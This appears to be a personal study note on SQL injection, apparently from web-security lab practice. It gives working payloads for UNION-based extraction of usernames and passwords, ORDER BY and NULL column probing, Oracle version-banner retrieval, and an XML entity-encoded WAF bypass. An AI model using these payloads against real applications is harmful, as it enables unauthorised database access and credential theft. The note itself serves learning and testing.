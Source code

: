 
Basically retrieve the another table by using UNION. It allows attackers to use SELECT command twice.

```
' UNION SELECT username, password FROM users--
```

Normally, when we test union injection. Firstly, check how many columns the table have. Secondly check which column has a suitable datatype. so that we can use SQL statement to retreive the respective data we want to expose.

```
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
```

another way

```
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
```

**In Oracle database**

We have to add **DUAL** after SELECT / FROM because it is a bult-in. Can't run without it.

```
' UNION SELECT NULL FROM DUAL--
```

**Oracle SQL injection exaple**

```
Accessories'+UNION+SELECT+banner,NULL+FROM+v$version--
```

<h2>WAF Bypass</h2>

We can encode or we can obfuscate the sql statement to bypass the WAF.

Ex. The below is XML-based SQL injection

```
<stockCheck>
    <productId>123</productId>
    <storeId>999 &#x53;ELECT * FROM information_schema.tables</storeId>
</stockCheck>
```

If we want to bypass specific technology, Burp suite provides many extension to help us bypass WAF. For example, if we want to bypass WAF that is implemented in XML, we can use Hackvertor extension to encode our SQL injection command to potentially bypass WAF.



**Out-of-band application security testing (OAST)**

This attacks uses external service to retreive SQL injection attack results. In Burp Suite, it has a dedicated testing server which allows users to perform OOB. This is useful when perform blind sql injection
